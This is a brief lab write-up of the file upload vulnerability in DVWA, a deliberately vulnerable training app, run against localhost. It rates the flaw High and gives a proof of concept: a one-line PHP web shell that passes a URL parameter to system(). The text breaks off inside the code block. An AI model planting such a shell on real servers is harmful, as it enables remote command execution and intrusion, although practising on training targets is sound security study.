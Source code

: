 # DVWA — File Upload (low)

**Target:** http://127.0.0.1/dvwa/vulnerabilities/upload/  
**Date:** 2025-09-26  
**Severity:** High

## Summary
DVWA’s file upload function does not validate file type or sanitize uploaded content. This allows arbitrary files (including scripts or web shells) to be uploaded and executed.

## PoC (reproducible)
**Payload:** `shell.php` with contents:
```php
<?php system($_GET['cmd']); ?>
